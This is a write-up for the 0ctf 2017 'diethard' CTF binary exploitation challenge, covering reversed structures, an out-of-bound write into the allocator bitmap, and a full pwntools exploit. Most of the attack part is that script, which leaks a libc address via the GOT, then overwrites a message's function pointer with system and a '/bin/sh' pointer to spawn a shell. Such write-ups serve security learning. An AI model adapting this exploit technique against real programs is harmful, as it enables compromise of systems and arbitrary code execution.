 # 0ctf-2017 diethard

# checksec

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FORTIFY Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No      0               3       diethard

```

## reverse

```c
struct big_msg {  //  msg_len >= 2016
  __int64 pre_index;
  __int64 msg_len;
  __int64 msg_ptr;
  __int64 (__cdecl *print_msg)(char *, unsigned int);
};
struct small_msg { // msg_len < 2016
  __int64 pre_index;
  __int64 msg_len;
  __int64 msg_ptr;
  __int64 (__cdecl *print_msg)(char *, unsigned int);
  char msg[msg_len];
};
struct arena_table{
  char *bitmap;
  int arena_count;
  int unknown;
  struct arena_attr table[22];
};
……
else
                {
                  puts("Please Input Message:");
                  get_line_s(ptr, msg_len);
                  v7->msg_len = msg_len;
                  v7->msg_ptr = (__int64)ptr;
                  v7->print_msg = (__int64 (__cdecl *)(char *, unsigned int))print_msg;
                  v7[1].pre_index = count++;
                  add_msg_to_table((__int64)v7);
                }
……
```

key info:

- The content of small msg is integrated with the small_msg struct, while the content of big msg that msg_ptr points to is a alone memory separated.
- The arena_table allocates the arenas first, and then allocate hte bitmap side by side.
- Every size of the blocks has a arena struct.
- If the number of the blocks used is more than half of the total , program will expand arena and bitmap.
- `v7[1].pre_index`  show a out-of-bound-write vulnerability that msg struct will saved current id in the origination of the next msg sturct.

try:

|                        prev_id                        |
| :---------------------------------------------------: |
|                        msg_len                        |
|                        msg_ptr                        |
| ____int64 (__cdecl *print_msg)(char *, unsigned int); |
|                        content                        |
|                        prev_id                        |
|                        msg_len                        |
|                        msg_ptr                        |
| ____int64 (__cdecl *print_msg)(char *, unsigned int); |
|                        content                        |
|          bitmap(**overwrite with prev_id**)           |
|                          ...                          |

We can overlap a big msg block and a small msg block by overwritting the bitmap, and then overwirte the function pointer to get a shell. 

exp:

```py
from pwn import *

def Add(p, length, content):
    p.sendlineafter("3. Exit\n\n", '1')
    p.sendlineafter("Input Message Length:\n", str(length))
    p.sendlineafter("Please Input Message:\n", content)

def Del(p, index):
    p.sendlineafter("3. Exit\n\n", '2')
    p.sendlineafter('Which Message You Want To Delete?\n', str(index))

def Show(p):
    p.sendlineafter("3. Exit\n\n", '2')
    data = p.recvuntil('Which Message You Want To Delete?\n')
    p.send("1234556" + '\n')
    return data

if __name__ == '__main__':
    p = process("./diethard", env = {"LD_PRELOAD": "./libc.so.6"})
    #gdb.attach(p, '''
    #break *0x400ba2
    #continue
    #''')
    libc = ELF("./libc.so.6")
    e = ELF("./diethard")

    Add(p, 2015, "AAAAAAAA")
    Add(p, 2015, "BBBBBBBB")

    payload = ''
    payload += p64(0)
    payload += p64(0x7df)
    payload += p64(e.got['__libc_start_main'])
    payload += p64(0x400976)
    Add(p, 2047, payload)

    libc_start_main_addr = u64(Show(p).split('1. ')[1][:8])
    print "[+] libc_start_main addr = 0x%x" % libc_start_main_addr
    libc_base_addr = libc_start_main_addr - libc.symbols['__libc_start_main']
    print "[+] libc_base addr = 0x%x" % libc_base_addr
    system_addr = libc_base_addr + libc.symbols['system']
    print "[+] system_addr = 0x%x" % system_addr
    binsh_addr = libc_base_addr + next(libc.search('/bin/sh'))
    print "[+] /bin/sh addr = 0x%x" % binsh_addr

    Del(p, '0')
    Del(p, '1')
    Del(p, '2')

    payload2 = ''
    payload2 += p64(0)
    payload2 += p64(0x7df)
    payload2 += p64(binsh_addr)
    payload2 += p64(system_addr)

    Add(p, 2015, "AAAAAAAA")
    Add(p, 2015, "BBBBBBBB")
    Add(p, 2047, payload2)

    p.sendlineafter("3. Exit\n\n", '2')

    p.interactive()

```





